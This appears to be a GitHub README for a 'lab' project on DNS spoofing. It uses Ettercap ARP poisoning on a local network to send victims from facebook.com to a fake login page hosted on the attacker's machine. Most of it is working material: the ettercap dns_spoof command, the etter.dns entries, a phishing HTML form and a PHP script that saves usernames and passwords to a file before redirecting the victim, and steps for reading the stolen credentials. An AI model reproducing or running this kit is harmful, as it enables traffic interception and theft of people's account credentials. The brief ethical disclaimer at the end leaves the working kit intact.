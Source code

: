 # DNS_Spoofing_Project
A Practical Lab Project Demonstrating DNS Spoofing Attacks.

# DNS Spoofing Fake Facebook Project

## Project Overview
This project demonstrates a DNS spoofing attack using Kali Linux and Ettercap. The attacker redirects a victim’s browser from the real Facebook website to a fake login page ("facebouk") hosted on the attacker’s machine. The goal is to capture the victim’s login credentials.

---

## Tools Used
- Kali Linux (Attacker)
- Apache2 Web Server
- Ettercap
- Victim Machine (Windows/Linux on same network)

---

## Prerequisites
- Kali Linux installed with Apache2 and Ettercap
- Victim machine connected to same local network
- Basic knowledge of network and Linux commands

---

## Setup Instructions

### 1. Setup Apache Server
```bash
# Create folder for fake site
sudo mkdir -p /var/www/html/facebouk


# Copy your fake Facebook files (HTML, PHP, CSS) into this folder
# Example:
sudo cp -r /path/to/fake_facebook_files/* /var/www/html/facebouk/

# Set permissions
sudo chown -R www-data:www-data /var/www/html/facebouk
sudo chmod -R 755 /var/www/html/facebouk

# Start Apache server
sudo systemctl start apache2
sudo systemctl enable apache2
```
### 2. Configure Ettercap DNS Spoofing
```bash
# Edit DNS spoof file
sudo nano /etc/ettercap/etter.dns

# Add these lines (replace 192.168.x.x with your Kali Linux IP):
facebouk.com A 192.168.x.x
www.facebouk.com A 192.168.x.x

```
### 3. Start Ettercap to perform ARP poisoning and DNS spoofing
```bash
sudo ettercap -T -q -i eth0 -M arp:remote /victim_ip// /gateway_ip// -P dns_spoof

# Replace eth0 with your Kali network interface (find with ifconfig or ip a).
# Replace victim_ip with victim’s IP address.
# Replace gateway_ip with your router’s IP address.

```



### Example Fake Facebook Login Page Code
```bash
# HTML (index.html)
<!DOCTYPE html>
<html>
<head>
  <title>Facebook Login</title>
</head>
<body>
  <h2>Login to Facebook</h2>
  <form action="login.php" method="POST">
    Username: <input type="text" name="username" required><br><br>
    Password: <input type="password" name="password" required><br><br>
    <input type="submit" value="Log In">
  </form>
</body>
</html>


# PHP to Capture Credentials (login.php)

<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    // Save credentials to a file
    $file = fopen("credentials.txt", "a");
    fwrite($file, "Username: $user | Password: $pass\n");
    fclose($file);

    // Redirect to real Facebook page after capturing credentials
    header("Location: https://www.facebook.com");
    exit();
}
?>


```
### How to Test

- Make sure Apache is running and hosting fake site at http://192.168.x.x/facebouk.
- Run Ettercap as above.
- On victim machine, open browser and visit facebook.com.
- Victim should see the fake Facebook login page.
- Entered credentials will be saved in credentials.txt inside /var/www/html/facebouk/.

### 4. 4. Check captured credentials
```bash
#On your Kali Linux attacker machine:
cat /var/www/html/facebouk/credentials.txt

"You should see the username and password entered by the victim"

```
### Troubleshooting
- If victim is not redirected:
- Verify IP addresses used are correct.
- Check Apache service is running: sudo systemctl status apache2
- Clear DNS cache on victim (Windows: ipconfig /flushdns).
- If Ettercap gives errors:
- Run with sudo.
- Check network interface name.
- Disable firewall if blocking traffic.

### Summary of Important Commands
```bash
# Start Apache server
sudo systemctl start apache2

# Enable Apache at boot
sudo systemctl enable apache2

# Edit etter.dns to add spoof entries
sudo nano /etc/ettercap/etter.dns

# Run ettercap with ARP poisoning and DNS spoofing
sudo ettercap -T -q -i eth0 -M arp:remote /victim_ip// /gateway_ip// -P dns_spoof

```
### Ethical Warning
"This project is for educational purposes only. Do NOT use it on unauthorized networks or devices. Always get permission before testing."
